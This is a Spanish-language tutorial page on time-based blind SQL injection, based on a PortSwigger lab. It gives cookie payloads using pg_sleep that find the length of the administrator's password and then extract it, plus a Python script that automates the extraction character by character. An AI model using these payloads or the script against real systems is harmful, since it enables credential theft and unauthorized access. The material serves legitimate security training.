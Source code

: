 ```yaml
---
layout: default
title: Ejercicio práctico
permalink: /injection_types/blind/time_based_type/time_based_exercise
nav_order: 1
parent: 4.3 Basadas en tiempo
grand_parent: 4. Inyecciones ciegas
---
```


# Ejercicio practico de inyección ciega basada en tiempo

> Ejercicio basado en el laboratorio "Lab: Blind SQL injection with time delays and information retrieval" de Web Security Academy (PortSwigger).


## Consigna

Este laboratorio contiene una vulnerabilidad de inyección de SQL ciega. La aplicación usa una cookie de rastreo (*tracking*) para análisis y ejecuta una consulta SQL con el valor de esta cookie. 

Los resultados de la consulta SQL no se devuelven, y la aplicación no responde de manera diferente en función de si la consulta devuelve filas o causa un error. Sin embargo, dado que la consulta se ejecuta sincrónicamente, es posible activar retrasos de tiempo condicionales para inferir información.

La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`.

Para resolver el laboratorio, obtener el usuario y contraseña del usuario `administrator` e iniciar sesión con estas credenciales.

## Resolución manual + automatización con Python

Luego de un primer acceso a la aplicación y por sugerencia de la consigna, analizando las cookies se observa que figura una llamada `TrackingId` con un valor alfanumérico. Para modificarla en pedidos siguientes es pertinente usar un proxy de ataque como OWASP ZAP para practicidad.

Inicialmente podemos validar la existencia de la vulnerabilidad de cualquiera de las formas mencionadas en [4.3 Basadas en tiempo](/test-page/injection_types/blind/time_based_type/time_based_exercise) para cada tipo de base. Por lo que modificando `TrackingId` de la siguiente manera se puede validar la que resulta válida:

```
TrackingId=ggg'||(SELECT pg_sleep(5))--
```

De este *payload* válido se deduce que el DBMS es PostgreSQL y variando los segundos de demora en `pg_sleep` se logra inferir un tiempo lo más bajo posible **que no se confunda con una demora común** de respuesta. 

Antes de extraer la contraseña del administrador y es pertinente conocer la longitud de la misma. Basado en el ejemplo de demora condicional para PostgreSQL que se encuentra en la [SQL injection cheat sheet de PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet), este es un posible fragmento de SQL que funciona:

```sql
SELECT CASE WHEN (LENGTH(password)=1) 
    THEN pg_sleep(5) ELSE pg_sleep(0) END 
    FROM users WHERE username='administrator'
```

Reemplazándolo en la cookie:

```
TrackingId=ggg'||(SELECT CASE WHEN (LENGTH(password)=1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
```

De esta manera solo se debe ir variando el número de largo comparado del número, manualmente o automatizado como se explica en los ejercicios anteriores (con *Fuzzer* de OWASP ZAP o *Intruder*/*Turbo Intruder* de Burp Suite). Como en los otros ejercicios, la longitud es 20.

Ahora debemos extraer la contraseña, teniendo en cuenta que conocemos la tabla, las columnas y hasta el nombre del usuario (administrador), una forma simple y eficaz sería la siguiente:
`TrackingId=ggg'||(SELECT case when substring(password,%d,1)='%s' then pg_sleep(5) else pg_sleep(0) end from users where username='administrator')--+-;`

De esta manera podemos ir probando entre las diferentes combinaciones donde esta %d (para ir iterando entre cada posición de la contraseña del 1 al 20) y %s (para iterar sobre todas posibles opciones las cuales incluyen los caracteres alfanuméricos).

Para automatizar las consultas podemos apoyarnos en un script en Python3:

```python
#!/usr/bin/python3
import requests,time,sys,string

main_url = 'https://BURPSUITE-LAB/filter?category=Pets' #URL Del laboratorio

characters = string.ascii_lowercase + string.digits #Caracteres alfanuméricos

def makeRequest():
    print("Iniciando SQLi")
    password = ""

    for position in range(1,21): #Posiciones de la contraseña del 0 al 20
        for character in characters:

            cookies = {
                    'TrackingId':"XYZ'||(select case when substring(password,%d,1)='%s' then pg_sleep(2) else pg_sleep(0) end from users where username='administrator')-- -" %(position,character),
                    'session':'session Cookie'}
            time_start=time.time()
            r = requests.get(main_url, cookies=cookies)
            time_end = time.time()

            if time_end - time_start > 2: #Tiempo de respuesta mayor a 2 segundos (inyeccion exitosa)
                password += character
                print("Password: %s (%s)"%(password,position))
                break

if __name__ == '__main__':
    makeRequest()
```
Para este ejemplo se tuvo en cuenta que la contraseña del administrador solo posee letras minúsculas y números. En un caso diferente, tendríamos que incluir dentro del arreglo de "characters" todos los caracteres posibles para la contraseña (Letras mayúsculas, caracteres especiales etc).


La desventaja de esta tecnica es que requiere una alta cantidad de consultas para probar todas las  posibles combinaciones, si bien se realizara mediante un script para automatizarlo, si lo que queremos es optimizar la cantidad de consultas, podemos apoyarnos en los consejos de optimización nombrados en la sección [4.1 Inyeccion SQL ciega con respuestas condicionales](https://spassarop.github.io/test-page/injection_types/blind/conditional_type#optimizaciones)



